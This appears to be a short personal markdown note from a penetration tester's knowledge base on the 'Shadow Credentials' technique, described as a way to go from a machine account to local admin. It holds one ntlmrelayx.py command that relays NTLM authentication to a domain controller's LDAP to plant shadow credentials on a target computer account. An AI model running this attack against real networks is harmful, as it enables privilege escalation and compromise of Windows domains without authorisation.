```yaml
---
creation date: January 27th 2022
last modified date: January 27th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Shadow Credentials]]  
___

## Description:  
To go from machine account to local admin


```bash
ntlmrelayx.py -t ldap://<dc-ip> --shadow-credentials --shadow-target '<computer-name>$' -smb2support --no-dump --no-da --no-acl --no-validate-privs
``````


https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay 

___

## Resources:

| Hyperlink | Info |
|https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay  | step-by-step |


Created Date: January 27th 2022 (02:57 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>